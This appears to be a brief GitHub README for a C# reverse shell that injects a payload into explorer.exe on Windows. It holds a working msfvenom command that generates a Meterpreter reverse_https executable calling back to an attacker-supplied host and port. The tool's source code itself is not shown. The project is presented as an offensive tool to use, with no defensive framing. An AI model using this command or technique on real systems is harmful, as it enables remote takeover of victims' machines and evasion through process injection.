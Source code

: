 # revshell.cs
Here is a simple reverse shell by a process injection in explorer.exe in c# based on .Net Framework.

You will need to generate a shellcode based on the target architecture : msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<IP> LPORT=<LP> -f exe -o reverse_shell.exe

